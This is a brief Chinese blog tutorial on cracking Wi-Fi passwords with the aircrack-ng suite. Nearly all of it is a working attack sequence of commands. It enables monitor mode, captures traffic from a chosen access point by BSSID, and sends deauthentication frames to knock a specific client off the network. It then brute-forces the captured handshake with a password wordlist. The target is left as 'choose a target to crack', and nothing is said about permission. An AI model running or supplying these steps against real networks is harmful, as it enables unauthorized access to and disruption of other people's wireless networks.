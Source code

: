 ```yaml
---
title: 用aircrack-ng破解wifi密码
author: 黄俭
date: '2020-07-02'
slug: aircrack-ng-wifi-crack
categories:
  - Computer
tags:
  - Linux
---
```


## 准备阶段
 - 外置USB网卡，我用的是老古董网卡，D-Link的AirPlus G DWL-G122.
 - 安装aircrack-ng。我是在CentOS 7 for RASPBERRY PI上编译安装，前期要装的包有......。
 
## 实战阶段
1. 杀死一些影响监听的进程
```shell
 # airmon-ng check kill
```

1. 将无线网卡设定为监听状态
```shell
 # airmon-ng start wlp1s0u1u4
```
执行结果截图
![图1 airmon-ng启动网卡的监听状态](http://123.56.98.124:8080/picLIB/upload/15/2020-07-02%2011-47-27%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

1. 查看监听网卡名
```shell
 # iwconfig
```

1. 开始监听
```shell
 # airodump-ng wlp2s0mon
```

1. 选择破解目标

1. 开始抓包
```shell
 # airodump-ng wlp3s0mon --bssid FE:7C:02:54:57:AD -c 4 -w ~/wifi_hack/HR658
```

1. 进行断线攻击
```shell
 # aireplay-ng -0 10  -a FE:7C:02:54:57:AD -c EC:89:14:68:61:17  wlp3s0mon
```
1. 检查利用密码词典暴力破解
```shell
 aircrack-ng data-01.cap -w ./crackstation-human-only.txt
```
